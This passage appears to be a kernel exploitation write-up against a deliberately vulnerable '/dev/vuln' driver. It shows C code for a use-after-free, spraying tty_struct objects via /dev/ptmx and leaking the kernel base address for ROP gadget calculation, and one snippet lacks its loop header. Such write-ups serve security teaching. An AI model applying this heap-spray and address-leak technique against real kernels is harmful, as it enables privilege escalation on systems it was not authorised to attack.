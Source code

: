 ## Exploitation

### Leaking base address

#### 1. Allocate a buffer (`buf`) using the vulnerable driver:

```c
// Open the vulnerable device
int vuln_fd = open("/dev/vuln", O_RDWR);

if (ioctl(vuln_fd, ALLOC, &target_size) != 0) {
    perror("ALLOC failed");
    return -1;
}
```

#### 2.  Free the buffer using the driver:

```c
    if (ioctl(vuln_fd, FREE) != 0) {
        perror("FREE failed");
        return -1;
    }
```

#### 3. Allocate a `tty_struct` by spam opening `/dev/ptmx` devices:

```c
    pty_count = 0;
    printf("[+] Opening PTY devices to trigger tty_struct allocation...\n");
        ptys[i] = open("/dev/ptmx", O_RDWR|O_NOCTTY);
        if (ptys[i] >= 0) {
            pty_count++;
            printf("  Opened PTY %d: fd=%d\n", i, ptys[i]);
        } else {
            printf("  Failed to open PTY %d: %s\n", i, strerror(errno));
            ptys[i] = -1;
        }
    }
```

#### 4. verify if a `tty_struct` is allocated in our heap pointer and then leak Kernel base address followed by calculating ROP gadgets and kernel function addreses:

```c

char *leaked_data = malloc(target_size);
if (!leaked_data) {
    perror("malloc failed");
    goto cleanup;
}

if (ioctl(vuln_fd, USE_READ, leaked_data) != 0) {
    perror("USE_READ failed");
    goto cleanup;
}

struct tty_struct_layout *tty = (struct tty_struct_layout*)leaked_data;

if(!is_kernel_pointer(tty->ops)){
    perror("tty_struct allocation failed");
  goto cleanup;
}
```